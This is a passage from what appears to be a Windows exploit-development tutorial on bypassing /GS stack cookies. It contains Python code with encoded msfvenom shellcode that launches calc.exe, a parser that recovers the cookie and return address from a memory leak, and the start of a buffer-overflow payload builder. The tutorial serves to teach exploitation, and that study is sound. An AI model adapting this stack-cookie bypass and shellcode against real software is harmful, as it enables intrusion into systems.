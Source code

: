 ```python
    -------------------------------------------------------------
  """


def gen_shellcode():
  ''' Shellcode to execute an arbitrary command in Windows (CALC.exe)
      $ msfvenom -p windows/exec CMD=calc.exe -f python -e x86/shikata_ga_nai \
                 -b '\x00\x0a\x0d' -v shellcode
  '''

  shellcode =  ""
  shellcode += "\xda\xd8\xbd\x21\x75\x35\x98\xd9\x74\x24\xf4\x5a"
  shellcode += "\x31\xc9\xb1\x31\x31\x6a\x18\x03\x6a\x18\x83\xea"
  shellcode += "\xdd\x97\xc0\x64\xf5\xda\x2b\x95\x05\xbb\xa2\x70"
  shellcode += "\x34\xfb\xd1\xf1\x66\xcb\x92\x54\x8a\xa0\xf7\x4c"
  shellcode += "\x19\xc4\xdf\x63\xaa\x63\x06\x4d\x2b\xdf\x7a\xcc"
  shellcode += "\xaf\x22\xaf\x2e\x8e\xec\xa2\x2f\xd7\x11\x4e\x7d"
  shellcode += "\x80\x5e\xfd\x92\xa5\x2b\x3e\x18\xf5\xba\x46\xfd"
  shellcode += "\x4d\xbc\x67\x50\xc6\xe7\xa7\x52\x0b\x9c\xe1\x4c"
  shellcode += "\x48\x99\xb8\xe7\xba\x55\x3b\x2e\xf3\x96\x90\x0f"
  shellcode += "\x3c\x65\xe8\x48\xfa\x96\x9f\xa0\xf9\x2b\x98\x76"
  shellcode += "\x80\xf7\x2d\x6d\x22\x73\x95\x49\xd3\x50\x40\x19"
  shellcode += "\xdf\x1d\x06\x45\xc3\xa0\xcb\xfd\xff\x29\xea\xd1"
  shellcode += "\x76\x69\xc9\xf5\xd3\x29\x70\xaf\xb9\x9c\x8d\xaf"
  shellcode += "\x62\x40\x28\xbb\x8e\x95\x41\xe6\xc4\x68\xd7\x9c"
  shellcode += "\xaa\x6b\xe7\x9e\x9a\x03\xd6\x15\x75\x53\xe7\xff"
  shellcode += "\x32\xab\xad\xa2\x12\x24\x68\x37\x27\x29\x8b\xed"
  shellcode += "\x6b\x54\x08\x04\x13\xa3\x10\x6d\x16\xef\x96\x9d"
  shellcode += "\x6a\x60\x73\xa2\xd9\x81\x56\xc1\xbc\x11\x3a\x28"
  shellcode += "\x5b\x92\xd9\x34"
  return shellcode


def get_memleak_values(output):
  ''' Takes memleak output as an argument and returns the addresses needed
      to construct the exploit.
  '''

  # Split input on each space to create a list of addresses that can be accessed by index
  memleak = output.split(' ')

  # Obtain values by accessing the nth index in the output
  eax = int(memleak[17],16)       # index 17 = eax
  ret = int(memleak[18],16)       # index 8 = return address (esp)
  ebp = ret - 0x8

  # Output memory leak and calculated registers/values
  print "{0} {1}\n{2}".format(memleak[0], 40, ''.join(x + " " for x in memleak[1:]))
  print "[*] Leaked addresses from memleak:"
  print "eax = 0x{:>08x}".format(eax)
  print "ret = 0x{:>08x}".format(ret)
  print "cookie = 0x{:>08x}\n".format(eax^ebp)  # eax ^ ebp = cookie
  # Return tuple of values
  return (eax, ret)


def create_payload(eax, ret):
  ''' Helper function combines all components to create the payload.
      Final result should look like:
      [ 0x414141...1024 ][ cookie ][ 0x42424242 ][  eip  ][ 0x909090... ][ shellcode ]
  '''

  buf  = "\x41" * 1024    # buf
```

[Section 1]: #overview-of-windows-mitigations "overview of mitigations"
[Section 2]: #vulnerability "GS vulnerability"
[Section 3]: #exploit-development
[Section 4]: #putting-it-all-together
[Click here]: https://docs.microsoft.com/en-us/cpp/build/building-on-the-command-line
[vulnerable]: #overview-of-windows-mitigations "Overview of Windows Mitigations"
[vulnerable program]: #the-vulnerable-code "Source Code"
[line 3]: #prologue-line-3 "Prologue Line 3"
[previous section]: #leveraging-the-memory-disclosure-vulnerability "Memory leak"
[As previously discussed]: #prologue-and-epilogue "prologue and epilogue"
[previous section]: #leveraging-memleak-vulnerability "leveraging memleak vulnerability"
[next section]: #finding-return-address "finding return address"
[here]: #leveraging-the-memory-disclosure-vulnerability "Memory leak"
[skip]: #putting-it-all-together "skip to next section"
[1]: https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check
[2]: http://uninformed.org/index.cgi?v=7&a=2
[3]: https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/